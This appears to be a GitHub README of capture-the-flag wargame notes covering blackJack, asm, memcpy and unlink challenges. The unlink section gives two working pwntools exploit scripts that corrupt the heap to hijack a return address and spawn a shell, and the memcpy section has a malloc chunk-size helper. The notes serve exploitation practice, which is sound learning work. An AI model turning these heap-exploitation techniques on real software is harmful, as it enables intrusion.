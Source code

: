 ## blackJack
function betting is trick

## asm
syscall reference https://w3challs.com/syscalls/?arch=x86_64  

- push flag name to stack
- read flag
- output
- be careful about little endian  
    
## memcpy
assemble code mvntps is aligned to 0x10, you'd better know how to allocate malloc chunk before pwn it
```
def malloc_chunk_size(n):
	if n < 12:
		size=16
	else:
		if (n+4)%8==0:
			size=n+4
		else:
			size=8*((n+4)//8+1)
	return size

for i in range(3,13):
	p=2**i
	while malloc_chunk_size(p)%16 !=0:
		p=p+1
	print p
```
## unlink
main function disassem after unlink 
```
call    unlink
add     esp, 10h
mov     eax, 0
mov     ecx, [ebp-4]
leave
lea     esp, [ecx-4]
retn
```
##### Method 1
set ebp to heap address when return from unlink, just like we build a fake stack on heap (don't care esp, we don't need it anymore after returning from unlink )
```
from pwn import *
c=process("./unlink")
s=c.recvuntil("\n")
stackAdd=int(s[-11:-1],16)

s=c.recvuntil("\n")
heapAdd=int(s[-11:-1],16)

payload=pack(0x080484eb)
payload+=p32(heapAdd+12)
payload+="a"*8
payload+=p32(heapAdd+16)
payload+=p32(stackAdd-0x1c)# unlink return address, change it to heap
c.sendline(payload)
c.interactive()

```

##### Method 2
main return address is stored in `*(*(ebp-4)-4)`, change the value in ebp-4 to heap address where we write shell address
```
from pwn import *
c=process("./unlink")
s=c.recvuntil("\n")
stackAdd=int(s[-11:-1],16)

s=c.recvuntil("\n")
heapAdd=int(s[-11:-1],16)

dic={
	0:p32(0x080484eb),
	16:p32(heapAdd+12),
	20:p32(stackAdd+0x10)
}
payload=fit(dic)
c.sendline(payload)
c.interactive()

```
